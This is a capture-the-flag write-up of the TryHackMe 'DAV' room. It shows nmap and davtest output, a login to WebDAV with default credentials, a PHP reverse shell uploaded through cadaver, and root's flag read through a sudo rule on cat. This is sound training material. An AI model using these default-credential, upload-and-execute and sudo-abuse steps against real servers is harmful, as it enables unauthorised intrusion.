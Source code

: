 ```yaml
---
layout: post
title: DAV Writeup
date: 2020-09-16 00:00:00 +5:30
categories: [TryHackMe, Easy]
tags: [tryhackme, owasp10, sudo] # add tag
---
```


## Description

The Following Post is writeup of DAV room of tryhackme <https://tryhackme.com/room/bsidesgtdav>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | stuxnet

## Summary

The machine have single port open 80. It got default page after dirbust we can see Webdav with default creds.
We can upload and execute php shell. www-data can execute cat as sudo so we can see root.txt.

## Walkthrough

### Enumeration

```bash
┌─[root@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $nmap -sC -sV 10.10.229.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-17 15:20 IST
Nmap scan report for 10.10.229.29
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.23 seconds
```

so from nmap scan we got one port only
Let's see what we can do.

#### port 80

![Webpage](/assets/img/dav/defaultapache.png)

![ffuf](/assets/img/dav/ffufoutput.png)

so we got webdav dir but it requires creds we don't have username  <br />
we can try default creds of webdav (user wampp and password xampp) <br />
okay we got directory listing let's check how we can exploit webdav <br />
so we can upload files using cadaver in webdav<br />
So let's run davtest to see what we can upload

![creds](/assets/img/dav/defaultcreds.png)

```bash
┌─[root@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $davtest -url http://10.10.229.29/webdav/ -auth wampp:xampp
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.229.29/webdav
********************************************************
NOTE    Random string for this session: s1y0c7
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.229.29/webdav/DavTestDir_s1y0c7
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT     asp     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT     cgi     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT     jhtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT     php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT     shtml   SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT     cfm     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT     pl      SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT     html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT     aspx    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT     txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    asp     FAIL
EXEC    cgi     FAIL
EXEC    jhtml   FAIL
EXEC    php     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
EXEC    shtml   FAIL
EXEC    cfm     FAIL
EXEC    pl      FAIL
EXEC    html    SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
EXEC    aspx    FAIL
EXEC    txt     SUCCEED:        http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.229.29/webdav/DavTestDir_s1y0c7
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jsp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.asp
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cgi
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.jhtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.shtml
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.cfm
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.pl
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.aspx
PUT File: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.php
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.html
Executes: http://10.10.229.29/webdav/DavTestDir_s1y0c7/davtest_s1y0c7.txt
```

Php is uploadable and executable.

#### Exploitation

so we are now going to upload a reverse shell.

```bash
┌─[✗]─[root@parrot]─[~/Desktop/tryhackme/DAV]
└──╼ $cadaver http://10.10.229.29/webdav/
Authentication required for webdav on server `10.10.229.29':
Username: xampp
Password:
Authentication required for webdav on server `10.10.229.29':
Username: wampp
Password:
dav:/webdav/> help
Available commands:
 ls         cd         pwd        put        get        mget       mput      
 edit       less       mkcol      cat        delete     rmcol      copy      
 move       lock       unlock     discover   steal      showlocks  version   
 checkin    checkout   uncheckout history    label      propnames  chexec    
 propget    propdel    propset    search     set        open       close     
 echo       quit       unset      lcd        lls        lpwd       logout    
 help       describe   about     
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put phpshell.php
Uploading phpshell.php to `/webdav/phpshell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/>
```

uploaded php shell let's execute it

we have pwncat listening.

#### PrivEsc

```bash
sudo -l

[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

sudo cat /root/root.txt
```
Hmmm we can read root.txt using sudo
and we get the root file.

### Reviews

Easy Machine everything is straight forward. I stuck at webdav login but turns out to be default.
